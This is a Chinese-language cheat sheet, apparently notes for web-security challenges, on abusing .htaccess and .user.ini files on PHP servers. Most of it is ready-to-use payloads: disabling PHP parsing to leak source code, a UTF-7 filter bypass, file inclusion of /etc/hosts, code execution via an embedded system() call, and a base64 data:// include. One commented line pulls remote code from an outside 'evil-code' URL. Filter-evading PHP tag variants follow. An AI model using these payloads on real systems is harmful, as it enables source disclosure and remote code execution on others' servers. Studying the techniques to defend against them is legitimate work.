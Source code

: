 ## .htaccess利用
>**auto_prepend_file** 在页面顶部加载文件  
  **auto_append_file**  在页面底部加载文件
### 源码泄露

```
php_flag engine 0
```

可以通过 .htaccess 文件的 php_flag 指令对 PHP 的 engine 配置选项进行设定，当把 engine 的值设为 off（或 0）时可以禁用一个本目录和子目录中的 PHP 解析，此时将会造成源码泄露

### 重定向报错文件

将对应文件内容作为报错日志

```
php_value error_log FILEPATH
```

### 编码bypass

```
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
#+ADw?php phpinfo()+ADs
```

### 文件包含
```
php_value auto_append_file /etc/hosts
```
#### 执行代码
```
php_value auto_append_file .htaccess
#<?php system("ls /");phpinfo();?>
```

#### 协议包含
```
php_flag allow_url_include 1
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
#php_value auto_append_file https://sektioneins.de/evil-code.txt
```

>在部分存在输入的waf时可以通过
>`\`来拼接上下文

## php特征绕过
### php标签
#### 短标签
- `<? ?>`
	需要 php.ini 配置文件中的指令 short_open_tag 打开后才可用，或者在 PHP 编译时加入了 --enable-short-tags 选项。自 PHP5.4 起，短格式的 echo 标记 `<?=` 总会被识别并且合法，而不管 short_open_tag 的设置
- `<?= ?>`
	不需要修改参数开关，但是只能在7.0以下可用
- `<% %>`
	php.ini 配置文件中的指令 asp_tags 打开后才可用
- `<script language="php"> echo 1; </script>`
	php7.0 后已经不解析

## .user.ini 
```
# 配置后在同目录所有php文件都会包含它
auto_prepend_file = 1.jpg
```